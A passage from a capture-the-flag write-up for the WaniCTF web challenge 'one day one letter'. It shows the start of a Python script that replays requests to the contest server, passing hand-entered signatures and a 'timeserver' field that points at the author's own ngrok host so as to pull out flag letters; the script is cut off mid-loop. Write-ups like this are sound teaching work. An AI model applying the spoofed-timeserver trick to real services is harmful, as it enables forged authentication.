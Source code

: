 ![Proof of Work](/assets/PoWBurp.jpg)

I then wrote a script to repeatedly POST to the content server with each new timestamp and signature generated by my server: 

```python
import requests
import time

currentTime = 1719683483
headers = {
    'Host': 'web-one-day-one-letter-content-lz56g6.wanictf.org',
    'Sec-Ch-Ua': '"Not/A)Brand";v="8", "Chromium";v="126"',
    'Sec-Ch-Ua-Platform': '"macOS"',
    'Accept-Language': 'en-US',
    'Sec-Ch-Ua-Mobile': '?0',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://web-one-day-one-letter-lz56g6.wanictf.org',
    'Sec-Fetch-Site': 'same-site',
    'Sec-Fetch-Mode': 'cors',
    'Sec-Fetch-Dest': 'empty',
    'Referer': 'https://web-one-day-one-letter-lz56g6.wanictf.org/',
    'Priority': 'u=1, i',
}
print("Flag starts with this: FLAG{?????t??????}.")
i = 0
while i < 12:
    signature = input("Enter signature: ")
    json_data = {
        'timestamp': str(currentTime),
        'signature': signature,
        'timeserver': 'b82b-2600-387-15-2912-00-c.ngrok-free.app',
    }

```